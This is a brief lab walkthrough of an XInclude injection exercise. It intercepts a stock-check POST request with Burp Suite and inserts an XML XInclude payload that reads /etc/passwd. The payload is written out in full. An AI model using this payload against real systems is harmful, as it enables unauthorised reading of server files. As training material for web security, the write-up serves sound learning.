

### Exploiting XInclude to retrieve files : PRACTITIONER

---


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.


> Viewing the `POST` request sent via HTTP history.



> To exploit via `XInclude` we add the payload to the `POST` request.
```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


> We view the `/etc/passwd` file and the lab is complete.

---
